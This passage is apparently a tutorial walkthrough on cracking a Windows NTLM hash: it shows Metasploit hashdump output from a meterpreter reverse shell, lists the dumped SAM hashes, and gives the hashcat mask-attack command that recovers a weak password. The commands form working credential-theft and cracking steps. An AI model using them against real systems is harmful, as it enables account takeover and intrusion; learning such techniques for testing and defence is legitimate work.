 In our case, the NTLM hash is obtained with the metasploit framework module `post/windows/gather/hashdump` executed in a meterpreter reverse shell.

```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY []...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[username]:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

Columns are separated by colon `:`, the 3rd one is LM(LAN Manager) hash, which has been deprecated since Windows Vista.

The 4th one `0b82e1dace77e29dd1de00896ba1c5bc` is the NTLM(NT LAN Manager) hash used by modern Windows operating systems,

and that is exactly what we are trying to brute-force here.

First create the `hash.txt` file

```
echo "0b82e1dace77e29dd1de00896ba1c5bc" > hash.txt
```

As we have no idea how long the password is, nor what characters may have been used,

we make an assumption that the length is between 5 and 9 , and only lowercase and numbers are used.

Use the custom charset

```
-1 ?l?d
```

This should word for most non tech-savvy people.

Then run

```
./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
```

Finally we will get the result `qqqqqq`.

This should be pretty quick if your graphics cards have enough horse power.

## Reference

-   [https://www.4armed.com/blog/perform-mask-attack-hashcat/](https://www.4armed.com/blog/perform-mask-attack-hashcat/)
